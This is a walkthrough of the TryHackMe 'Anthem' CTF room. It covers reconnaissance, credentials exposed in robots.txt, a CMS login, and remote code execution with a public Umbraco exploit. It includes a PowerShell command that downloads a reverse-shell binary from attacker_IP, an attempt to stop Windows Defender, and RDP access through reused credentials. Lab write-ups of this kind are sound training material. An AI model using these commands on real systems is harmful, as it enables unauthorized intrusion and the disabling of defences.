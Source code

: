 ```bash
# PLATFORM          . THM
# CTF NAME          . Anthem
# DESCRIPTION       . Exploit a Windows machine in this beginner level challenge.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/anthem
```

```bash
sudo nmap -sSVC -T5 -Pn -p- 10.10.254.142 -oN anthem
```

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-12-07T13:11:38+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-LU09299160F
| Not valid before: 2023-12-06T13:07:13
|_Not valid after:  2024-06-06T13:07:13
| rdp-ntlm-info: 
|   Target_Name: WIN-LU09299160F
|   NetBIOS_Domain_Name: WIN-LU09299160F
|   NetBIOS_Computer_Name: WIN-LU09299160F
|   DNS_Domain_Name: WIN-LU09299160F
|   DNS_Computer_Name: WIN-LU09299160F
|   Product_Version: 10.0.17763
|_  System_Time: 2023-12-07T13:10:32+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- By inspecting the source code, we can find the `/search`, `/categories`, `/tags` and `archive` directories.

- The `ffuf` command adds a few files/directories on this list

```
ffuf -u http://10.10.254.142/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .txt,.php -t 100
```

```
Archive                 [Status: 301, Size: 118, Words: 6, Lines: 4]
archive                 [Status: 301, Size: 118, Words: 6, Lines: 4]
authors                 [Status: 200, Size: 4075, Words: 769, Lines: 112]
blog                    [Status: 200, Size: 5399, Words: 1311, Lines: 127]
Blog                    [Status: 200, Size: 5399, Words: 1311, Lines: 127]
categories              [Status: 200, Size: 3546, Words: 561, Lines: 104]
install                 [Status: 302, Size: 126, Words: 6, Lines: 4]
robots.txt              [Status: 200, Size: 192, Words: 17, Lines: 11]
robots.txt              [Status: 200, Size: 192, Words: 17, Lines: 11]
rss                     [Status: 200, Size: 1855, Words: 240, Lines: 30]
search                  [Status: 200, Size: 3472, Words: 520, Lines: 93]
Search                  [Status: 200, Size: 3472, Words: 520, Lines: 93]
RSS                     [Status: 200, Size: 1855, Words: 240, Lines: 30]
sitemap                 [Status: 200, Size: 1047, Words: 94, Lines: 30]
SiteMap                 [Status: 200, Size: 1047, Words: 94, Lines: 30]
tags                    [Status: 200, Size: 3599, Words: 579, Lines: 105]
```

- Most of the pages are irelevant to us. However, if we read the first article on the blog, we can find an email address `JD@anthem.com` which is the address of the author, `Jane Doe`.

- This is important as it gives us the clear syntax used for email addresses.

- `Robots.txt` file reveals the following content

```
UmbracoIsTheBest!

# Use for all search robots
User-agent: *

# Define the directories not to crawl
Disallow: /bin/
Disallow: /config/
Disallow: /umbraco/
Disallow: /umbraco_client/
```

- However, only `/umbraco` is relevant to us. 

- Here, the CTF holds our hand a bit and asks us about the Administrator username and email.

- To gather this, we need to head to the second article on the blog and search the lyrics of the poem on the internet. 

- This will reveal the name of the Administrator and, using the naming convention from above, his email address.

```
 S{REDACTED}y
 {redacted}@anthem.com
```

- Using the `email` and the string from `robots.txt`, `UmbracoIsTheBest!`, we're able to login to the `Umbraco CMS`.

- Alright. I was doing some overthinking here trying to get a reverse shell ; 

- I tried a bunch of RCE vulnerabilities from exploit-db targeting Umbraco ; most didn't work, two of them looked promising but outputted some python errors and I didn't wanted to spend time trying to fix them yet.

- Then, I've moved to metasploit and found a module which ... wasn't working on our Umbraco version.

- Finally, I found a vulnerability that allowed for RCE [here](https://github.com/noraj/Umbraco-RCE) and seemed to work, unlike its exploit-db counterparts.

- And here... I went down the loophole again. The syntax is

```
python3 exploit.py -u user -p psw -i 'http://ip' -c command -a args
```

```
python3 exploit.py -u <user> -p UmbracoIsTheBest! -i 'http://10.10.116.113' -c powershell -a "Invoke-WebRequest -Uri http://attacker_IP:80/rev_shell.exe -OutFile shell.exe"

Invoke-WebRequest : Access to the path 'C:\windows\system32\inetsrv\shell.exe' is denied.
```

- Using the command above, I tried transferring `rev_shell.exe` from my host, which is a reverse shell generated via msfvenom ;

- If you look to the output, it tried to write it to a path where we don't have write access.

- I assume all I had to do was to change `-OutFile` to `C:\Temp\shell.exe` or something similar .. but it didn't work :)

```
Error parsing the XSLT:System.Xml.Xsl.XslLoadException: Unrecognized escape sequence An error occurred at (1,107).
   at System.Xml.Xsl.XslCompiledTransform.LoadInternal(Object stylesheet, XsltSettings settings, XmlResolver stylesheetResolver)
   at umbraco.macro.CreateXsltTransform(XmlTextReader xslReader, Boolean debugMode)
   at umbraco.presentation.umbraco.developer.Xslt.xsltVisualize.visualizeDo_Click(Object sender, EventArgs e)
```

- However, my `python webserver` received a GET request, so I assumed this was because the script couldn't parse an output to return when the file transfer finished.

```
10.10.116.113 - [07/Dec/2023 23:38:54] "GET /rev_shell.exe HTTP/1.1" 200 
```

- I tried running the file... but with no luck. 

- Then, I tried different Powershell reverse shells until I got here.

```
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

- So yeah, "I'll just disable Windows defender" - I said :) 

```
python3 exploit.py -u <user> -p UmbracoIsTheBest! -i 'http://10.10.116.113' -c sc -a "stop windefend"

[SC] OpenService FAILED 5:

Access is denied.
```

- Ooops. Then.... I REMEMBERED SOMETHING. Look at the NMAP output.

- Did you see it? We have port 3389 open and I totally forgot about it. And yes... the credentials for the CMS work on RDP too.

```
xfreerdp /u:SG /v:10.10.116.113 /cert-ignore /dynamic-resolution 
```

- And we're in :) Not that hard... huh?

- The room guides us again and tells us that the Administrator password is available somewhere on the system and it's hidden.

- So I went to C:\ (wanted to go to Users -> Administrator) and then to `View -> Hidden items`. A folder `backups` appeard in the file explorer and it container a text file that couldn't be read by us.

- `Right Click, Properties, Security, Advanced` and assigned the file to my user, marking it with `Full Access`. 

- Then, you can switch to Administrator account with the password found.

**WEB FLAGS**

1. First blog post source code
2. Main page source code
3. Navigate to the profile of Jane Doe.
4. Second blog post source code

**TIP**: CTRL + F after THM to see them easier. I spent more time finding these without CTRL+F than anything else :) 

**HOST FLAGS**

1. User: User's desktop.
2. Root: Administrator's desktop.